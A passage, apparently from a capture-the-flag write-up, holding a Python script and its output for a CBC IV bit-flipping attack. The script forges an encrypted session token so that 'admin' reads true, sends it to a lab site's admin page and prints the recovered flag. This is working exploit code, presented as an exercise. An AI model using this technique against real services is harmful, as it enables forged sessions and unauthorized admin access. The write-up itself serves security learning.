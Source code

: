 ```python
    token = json.loads(base64.b64decode(token).decode())
    return token

# forge a new iv which forces b"false" -> b" true" and compute the new resulting token
def forge_token(token, user_dict_leak, server_iv):
    new_admin_value = b" true"
    flipped_iv = bytearray(server_iv)
    index_to_flip = user_dict_leak.index(b"f")

    for flip in new_admin_value:
        mask = flip ^ user_dict_leak[index_to_flip]
        flipped_iv[index_to_flip] = flipped_iv[index_to_flip] ^ mask
        index_to_flip += 1

    token["iv"] = base64.b64encode(flipped_iv).decode()
    new_token = {"token": base64.b64encode(json.dumps(token).encode()).decode()}

    get_flag = requests.get(base_url + "/admin-opinions", cookies=new_token)

    if "flag" in get_flag.text:
        print(f"forged token: {new_token['token']}")
        print(f"forged iv: {base64.b64encode(flipped_iv).decode()}")
        print(get_flag.text)


if __name__ == "__main__":
    user_dict = {"admin": False, "username": "NOT_YET_ADMIN???"}
    user_dict_leak = json.dumps(user_dict).encode()
    token = register_user(user_dict["username"])

    server_iv = bytearray(base64.b64decode(token["iv"]))
    forge_token(token, user_dict_leak, server_iv)
```

result:

```html
original token:
eyJ1c2VyX2RpY3QiOiAiemVnWm9IRm8rNmp2RWRDMzRyS0E4aUZUWlBBN2p5RGIxc2NETjFjZXVvMFJuM1Y0WWE5S1dXRDVGdEczeGswS2dNUFhVYllzKzBTNjhDSXRvbWdudkE9PSIsICJpdiI6ICJUYjAxYjdwbS9DdlYxYmRLRWlxNTNnPT0ifQ==
forged token:
eyJ1c2VyX2RpY3QiOiAiemVnWm9IRm8rNmp2RWRDMzRyS0E4aUZUWlBBN2p5RGIxc2NETjFjZXVvMFJuM1Y0WWE5S1dXRDVGdEczeGswS2dNUFhVYllzKzBTNjhDSXRvbWdudkE9PSIsICJpdiI6ICJUYjAxYjdwbS9DdlYxZkZmREN5NTNnPT0ifQ==
forged iv: Tb01b7pm/CvV1fFfDCy53g==
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta http-equiv="X-UA-Compatible" content="IE=edge" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <link rel="stylesheet" href="/static/style.css" />
    <title>Admin - ShareIt</title>
  </head>
  <body class="bg-primary">
    <div class="container mx-auto max-w-3xl p-6 text-white">
      <div class="max-w-max mx-auto">
        <h1 class="text-6xl mb-4 text-center">Admin opinions</h1>
        <ul class="list-disc">
          <li class="text-lg mb-3">Flags are pretty cool I think</li>
          <li class="text-lg mb-3">
            My favourite flag is: <code>INTIGRITI{1v_1ike_t0_fl1p_bit5}</code>
          </li>
        </ul>
      </div>
```